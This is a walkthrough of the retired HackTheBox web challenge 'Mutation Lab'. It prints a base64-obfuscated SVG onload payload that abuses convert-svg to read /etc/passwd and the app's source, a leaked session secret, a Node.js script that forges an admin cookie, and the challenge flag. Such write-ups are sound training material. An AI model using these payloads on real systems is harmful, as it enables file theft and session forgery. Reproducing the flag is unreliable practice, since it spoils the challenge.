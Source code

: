 ```yaml
---
Category: Web
Difficulty: Medium
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - LFI
  - convert-svg
  - forging-cookies
  - nodejs
  - path-traversal
  - Linux
---
```

>[!quote]
> *One of the renowned scientists in the research of cell mutation, Dr. Rick, was a close ally of Draeger. The by-products of his research, the mutant army wrecked a lot of havoc during the energy-crisis war. To exterminate the leftover mutants that now roam over the abandoned areas on the planet Vinyr, we need to acquire the cell structures produced in Dr. Rick's mutation lab. Ulysses managed to find a remote portal with minimal access to Dr. Rick's virtual lab. Can you help him uncover the experimentations of the wicked scientist?*


# Set up

- Code or test environment is not provided

# Information Gathering

## The application at-a-glance 🔍

Login and registration page:

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a.png)

Registered an account and enumerated the internal area:

```
POST /api/register HTTP/1.1
Host: 159.65.59.5:30872
Connection: keep-alive
Content-Length: 43
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.59.5:30872
Referer: http://159.65.59.5:30872/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ==; session.sig=XgGOoiot_fWo-RqRnE9KGES0Ak0

{"username":"maoutis","password":"maoutis"}
```

```
POST /api/login HTTP/1.1
Host: 159.65.59.5:30872
Connection: keep-alive
Content-Length: 43
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.59.5:30872
Referer: http://159.65.59.5:30872/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ==; session.sig=XgGOoiot_fWo-RqRnE9KGES0Ak0

{"username":"maoutis","password":"maoutis"}

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 46
ETag: W/"2e-FCTfdnBNtsqc3wjjuhAwgZEEoU8"
Set-Cookie: session=eyJ1c2VybmFtZSI6Im1hb3V0aXMifQ==; path=/; httponly
Set-Cookie: session.sig=70TxHPv6O9FMkh4rZ15iQsMQ-AM; path=/; httponly
Date: Mon, 18 Jul 2022 14:29:14 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%201.png)

Export cell structure:

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%202.png)

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%203.png)

# The Bug

[https://github.com/neocotic/convert-svg/issues/81](https://github.com/neocotic/convert-svg/issues/81)

[https://github.com/neocotic/convert-svg/issues/84](https://github.com/neocotic/convert-svg/issues/84)

[https://github.com/neocotic/convert-svg/issues/86](https://github.com/neocotic/convert-svg/issues/86)

```
POST /api/export HTTP/1.1
Host: 159.65.59.5:30872
Content-Length: 404
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.59.5:30872
Referer: http://159.65.59.5:30872/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6InVzZXIifQ==; session.sig=Xu_rjB4ONsGxnu1Hfe5GdUaEuyY
Connection: close

{"svg":"<svg onload=eval(atob(this.id)) id='ZG9jdW1lbnQud3JpdGUoJzxzdmctZHVtbXk+PC9zdmctZHVtbXk+PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZXRjL3Bhc3N3ZCIgd2lkdGg9IjEwMCUiIGhlaWdodD0iMTAwMHB4Ij48L2lmcmFtZT48c3ZnIHZpZXdCb3g9IjAgMCAyNDAgODAiIGhlaWdodD0iMTAwMCIgd2lkdGg9IjEwMDAiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyI+PHRleHQgeD0iMCIgeT0iMCIgY2xhc3M9IlJycnJyIiBpZD0iZGVtbyI+ZGF0YTwvdGV4dD48L3N2Zz4nKTs='></svg>"
}
```

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=Wkc5amRXMWxiblF1ZDNKcGRHVW9Kenh6ZG1jdFpIVnRiWGsrUEM5emRtY3RaSFZ0YlhrK1BHbG1jbUZ0WlNCemNtTTlJbVpwYkdVNkx5OHZaWFJqTDNCaGMzTjNaQ0lnZDJsa2RHZzlJakV3TUNVaUlHaGxhV2RvZEQwaU1UQXdNSEI0SWo0OEwybG1jbUZ0WlQ0OGMzWm5JSFpwWlhkQ2IzZzlJakFnTUNBeU5EQWdPREFpSUdobGFXZG9kRDBpTVRBd01DSWdkMmxrZEdnOUlqRXdNREFpSUhodGJHNXpQU0pvZEhSd09pOHZkM2QzTG5jekxtOXlaeTh5TURBd0wzTjJaeUkrUEhSbGVIUWdlRDBpTUNJZ2VUMGlNQ0lnWTJ4aGMzTTlJbEp5Y25KeUlpQnBaRDBpWkdWdGJ5SStaR0YwWVR3dmRHVjRkRDQ4TDNOMlp6NG5LVHM9)

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%204.png)

# Exploitation

Leaked the application source code:

```json
{"svg":"<svg onload=eval(atob(this.id)) id='ZG9jdW1lbnQud3JpdGUoJzxzdmctZHVtbXk+PC9zdmctZHVtbXk+PGlmcmFtZSBzcmM9ImZpbGU6Ly8vYXBwL3JvdXRlcy9pbmRleC5qcyIgd2lkdGg9IjEwMCUiIGhlaWdodD0iMTAwMHB4Ij48L2lmcmFtZT48c3ZnIHZpZXdCb3g9IjAgMCAyNDAgODAiIGhlaWdodD0iMTAwMCIgd2lkdGg9IjEwMDAiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyI+PHRleHQgeD0iMCIgeT0iMCIgY2xhc3M9IlJycnJyIiBpZD0iZGVtbyI+ZGF0YTwvdGV4dD48L3N2Zz4nKTs='></svg>"
}
```

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%205.png)

Leaked index.js

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%206.png)

Leaked SESSION_SECRET_KEY: `fc8c7ef845baff7935591112465173e7`

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%207.png)

Wrote a simple Node.JS script to generate and admin session cookie:

```jsx
var express = require('express')
const cookieSession = require('cookie-session');

var server = express()

server.use(cookieSession({
  name: "session",
  keys: ['fc8c7ef845baff7935591112465173e7'],
  Maxage: 20 * 60 * 1000 // valid for 20 minutes
}));

server.get('/', function (req, res, next) {
  // Update views
  req.session.username = "admin"

  // Write response
  res.end(req.session.username + ' views')
})

console.log('Up and running on port 1337...');
server.listen(1337);
```

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%208.png)

Updated the cookies against the target and obtained the flag:

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%209.png)

# Flag

>[!success]
>`HTB{fr4m3d_s3cr37s_4nd_f0rg3d_entr13s}`